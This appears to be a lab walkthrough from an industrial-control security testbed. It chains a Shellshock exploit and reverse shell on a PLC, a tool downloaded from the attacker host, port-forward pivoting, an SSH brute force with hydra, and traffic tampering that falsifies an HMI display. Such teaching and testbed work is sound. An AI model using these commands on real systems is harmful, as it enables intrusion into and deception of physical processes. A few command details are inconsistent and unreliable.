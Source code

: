 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. 

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

- Establish a webserver:
```bash
python3 -m http.server
```
![Webserver](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/webserver.png "Figure: Webserver")

- Downloading the required tool:
```bash
wget http://10.0.1.100/port-forward.py
```
![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download-tool.png "Figure: Tool Download")

- Port Forwarding:
```bash
python port-forward.py 2222:10.0.1.77:22
```
![ Port Forwarding](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/port-forwarding.png "Figure: Port Forwarding")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

- SSH Bruteforce:
```bash
hydra -L user.txt -P pass.txt -t 6 ssh://10.0.1.66:2222
```
![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce-ssh.png "Figure: SSH Bruteforce")

- SSH Connection:
```bash
ssh -P 2222 admin@10.0.1.66
```
![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: Shellshock Exploit")

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Shellshock Exploit")
